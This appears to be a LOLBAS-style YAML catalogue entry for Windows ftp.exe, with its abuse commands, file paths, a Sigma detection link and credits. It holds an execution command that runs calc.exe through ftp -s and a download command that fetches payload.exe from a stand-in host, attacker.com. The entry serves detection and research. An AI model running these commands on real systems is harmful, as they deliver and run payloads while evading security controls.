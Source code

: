 ```yaml
---
Name: Ftp.exe
Description: A binary designed for connecting to FTP servers
Author: 'Oddvar Moe'
Created: 2018-12-10
Commands:
  - Command: echo !calc.exe > ftpcommands.txt && ftp -s:ftpcommands.txt
    Description: Executes the commands you put inside the text file.
    Usecase: Spawn new process using ftp.exe. Ftp.exe runs cmd /C YourCommand
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: cmd.exe /c "@echo open attacker.com 21>ftp.txt&@echo USER attacker>>ftp.txt&@echo PASS PaSsWoRd>>ftp.txt&@echo binary>>ftp.txt&@echo GET /payload.exe>>ftp.txt&@echo quit>>ftp.txt&@ftp -s:ftp.txt -v"
    Description: Download
    Usecase: Spawn new process using ftp.exe. Ftp.exe downloads the binary.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\ftp.exe
  - Path: C:\Windows\SysWOW64\ftp.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_ftp.yml
  - IOC: cmd /c as child process of ftp.exe
Resources:
  - Link: https://twitter.com/0xAmit/status/1070063130636640256
  - Link: https://medium.com/@0xamit/lets-talk-about-security-research-discoveries-and-proper-discussion-etiquette-on-twitter-10f9be6d1939
  - Link: https://ss64.com/nt/ftp.html
  - Link: https://www.asafety.fr/vuln-exploit-poc/windows-dos-powershell-upload-de-fichier-en-ligne-de-commande-one-liner/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: BennyHusted
    Handle: ''
  - Person: Amit Serper
    Handle: '@0xAmit'
---
```

